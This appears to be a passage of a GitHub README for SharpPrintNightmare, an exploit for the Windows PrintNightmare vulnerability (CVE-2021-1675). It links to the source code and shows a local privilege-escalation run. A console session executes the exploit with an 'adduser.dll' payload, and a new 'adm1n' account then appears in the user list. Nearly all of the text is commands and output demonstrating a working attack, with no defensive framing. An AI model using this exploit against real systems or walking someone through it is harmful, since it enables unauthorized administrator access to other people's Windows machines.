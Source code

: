 https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare

# LPE

Remember absolute path of dll required

	C:\Users\testuser\Desktop>net user

	User accounts for \\PC-WIN10

	-------------------------------------------------------------------------------
	Administrator            DefaultAccount           Guest
	nightmare                WDAGUtilityAccount       win10
	The command completed successfully.


	C:\Users\testuser\Desktop>SharpPrintNightmare.exe c:\users\testuser\Desktop\adduser.dll
	[*] pDriverPath C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_c62e9f8067f98247\Amd64\mxdwdrv.dll
	[*] Executing c:\users\testuser\Desktop\adduser.dll
	[*] Try 1...
	[*] Stage 0: 0
	[*] Stage 2: 0
	[+] Exploit Completed

	C:\Users\testuser\Desktop>net user

	User accounts for \\PC-WIN10

	-------------------------------------------------------------------------------
	adm1n                    Administrator            DefaultAccount
	Guest                    nightmare                WDAGUtilityAccount
	win10
	The command completed successfully.

